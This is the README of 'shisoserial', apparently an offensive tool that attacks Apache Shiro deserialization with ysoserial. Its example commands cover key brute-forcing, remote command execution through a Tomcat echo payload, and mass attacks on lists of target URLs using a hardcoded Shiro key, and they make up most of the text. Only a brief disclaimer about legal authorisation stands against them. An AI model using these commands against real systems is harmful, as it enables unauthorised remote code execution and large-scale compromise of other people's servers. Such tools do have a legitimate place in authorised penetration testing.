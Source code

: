 

# shisoserial

## What is this

A simple tool targeted at shiro framework attacks with ysoserial.

## Contributor

[4nth0ny](https://github.com/4nth0ny1130) @Friday_lab

## Runtime

*   python 3.x

*   JDK 1.8

## Installation

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## Usage

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser] [--thread]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
  --thread , -T         Specific the number of threads
```

## Expample

### Check if shiro framework (default CBC mode)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```

![](README.assets/image-20211229165754332.png)

### Use proxy angent cracking the shiro key with CBC mode

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```

![](README.assets/image-20211229171904315.png)

### Use Tomcat echo payload attack with  CommonsCollectionsK1 gadget (no DNSlog used)

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```

![](README.assets/image-20211229175021680.png)

### Mass use specified shiro key with Post method

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```

![image-20211229223405240](README.assets/image-20211229223405240.png)

### Use serialize file send payload with multithreading

```
python3 shisoserial.py -m encode -u target_urls.txt -t cbc -s 1.ser -T 4
```

![image-20211230181021173](README.assets/image-20211230181021173.png)

## Disclaimer

This tool can only be used in the safety construction of enterprises with sufficient legal authorization. During the use of this tool, you should ensure that all your actions comply with local laws and regulations. If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself, and all developers and all contributors of this tool will not bear any legal and joint liability.
